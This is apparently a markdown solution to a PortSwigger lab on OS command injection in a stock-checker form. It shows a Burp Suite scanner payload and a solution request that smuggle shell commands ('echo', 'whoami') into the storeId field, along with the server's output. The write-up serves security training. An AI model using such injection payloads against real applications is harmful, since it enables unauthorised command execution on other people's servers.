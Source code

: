 # [Lab: OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

## Lab

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

## Scan

- burpsuite scanner detected:
  - `OS command injection` (decoded body):

    ```http
    POST /product/stock HTTP/1.1

    productId=3&storeId=2|echo qhcutwq3c9 oxvhfi5ipt||a #' |echo qhcutwq3c9 oxvhfi5ipt||a #|" |echo qhcutwq3c9 oxvhfi5ipt||a #

    HTTP/1.1 200 OK

    qhcutwq3c9 oxvhfi5ipt
    ```

  - `SQL injection`

## Solutions

```http
POST /product/stock HTTP/1.1

productId=1&storeId=2;whoami

HTTP/1.1 200 OK

22
peter-0pNtjC
```
